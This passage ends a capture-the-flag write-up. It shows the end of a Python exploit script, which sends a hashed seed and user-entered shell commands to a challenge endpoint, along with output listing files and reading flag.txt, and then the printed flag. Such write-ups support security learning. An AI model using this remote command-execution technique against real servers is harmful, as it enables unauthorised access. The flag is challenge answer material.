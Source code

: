 ```py

    response = requests.post(url=URL1, data=payload, headers=headers)
    print(response.text)


if __name__ == "__main__":
    main()
```

As you can see, we send the seed at first to `/ping` using `requests` with the `okhttp` User-Agent. This allows user to then send the command given through user input to `URL1`. We hash the seed ourselves and replace the data of the request with that. Then we get our result.

```sh
$ ./simple_pwn.py
Enter command: ls
entrypoint.sh
flag.txt
main.py
requirements.txt
static
templates

$ ./simple_pwn.py
Enter command: cat flag.txt
RS{th3_myst3ry_k33ps_unf0ld1ng}
```

Flag: `RS{th3_myst3ry_k33ps_unf0ld1ng}`